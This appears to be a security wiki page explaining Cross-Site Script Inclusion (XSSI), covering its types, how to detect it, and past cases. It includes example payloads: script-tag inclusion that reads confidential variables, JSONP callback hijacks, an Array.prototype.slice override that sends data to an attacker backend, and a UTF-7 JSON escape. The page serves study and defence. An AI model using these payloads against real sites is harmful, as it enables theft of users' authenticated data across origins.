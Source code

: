 # XSSI (Cross-Site Script Inclusion)






## Basic Information

**Cross-Site Script Inclusion (XSSI)** is a vulnerability that arises from the nature of the `script` tag in HTML. Unlike most resources, which are subject to the **Same-Origin Policy (SOP)**, scripts can be included from different domains. This behavior is intended to facilitate the use of libraries and other resources hosted on different servers but also introduces a potential security risk.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Scripts are exempt from the **Same-Origin Policy**, allowing them to be included across domains.
- **Data Exposure**: An attacker can exploit this behavior to read data loaded via the `script` tag.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** is particularly relevant for dynamic JavaScript or **JSON with Padding (JSONP)**. These technologies often use "ambient-authority" information (like cookies) for authentication. When a script request is made to a different host, these credentials (e.g., cookies) are automatically included in the request.
- **Authentication Token Leakage**: If an attacker can trick a user's browser into requesting a script from a server they control, they might be able to access sensitive information contained in these requests.

### Types

1. **Static JavaScript** - This represents the conventional form of XSSI.
2. **Static JavaScript with Authentication** - This type is distinct because it requires authentication to access.
3. **Dynamic JavaScript** - Involves JavaScript that dynamically generates content.
4. **Non-JavaScript** - Refers to vulnerabilities that do not involve JavaScript directly.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
In this approach, private information is embedded within a globally accessible JavaScript file. Attackers can identify these files using methods like file reading, keyword searches, or regular expressions. Once located, the script containing private information can be included in malicious content, allowing unauthorized access to sensitive data. An example exploitation technique is shown below:

```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```

### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI
These types of XSSI attacks involve confidential information being dynamically added to the script in response to a user's request. Detection can be performed by sending requests with and without cookies and comparing the responses. If the information differs, it may indicate the presence of confidential information. This process can be automated using tools like the [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp extension.

If confidential data is stored in a global variable, it can be exploited using similar methods to those used in Regular XSSI. However, if the confidential data is included in a JSONP response, attackers can hijack the callback function to retrieve the information. This can be done by either manipulating global objects or setting up a function to be executed by the JSONP response, as demonstrated below:

```html
<script>
      var angular = function () { return 1; };
      angular.callbacks = function () { return 1; };
      angular.callbacks._7 = function (leaked) {
          alert(JSON.stringify(leaked));
      };
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
      leak = function (leaked) {
          alert(JSON.stringify(leaked));
      };
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```

For variables not residing in the global namespace, *prototype tampering* can sometimes be exploited. This technique leverages JavaScript's design, where code interpretation involves traversing the prototype chain to locate the called property. By overriding certain functions, such as `Array`'s `slice`, attackers can access and leak non-global variables:

```javascript
Array.prototype.slice = function(){
  // leaks ["secret1", "secret2", "secret3"]
  sendToAttackerBackend(this);
};
```

Further details on attack vectors can be found in the work of Security Researcher [Sebastian Lekies](https://twitter.com/slekies), who maintains a list of [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Takeshi Terada's research introduces another form of XSSI, where Non-Script files, such as CSV, are leaked cross-origin by being included as sources in a `script` tag. Historical instances of XSSI, such as Jeremiah Grossman’s 2006 attack to read a complete Google address book and Joe Walker’s 2007 JSON data leak, highlight the severity of these threats. Additionally, Gareth Heyes describes an attack variant involving UTF-7 encoded JSON to escape the JSON format and execute scripts, effective in certain browsers:

```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```




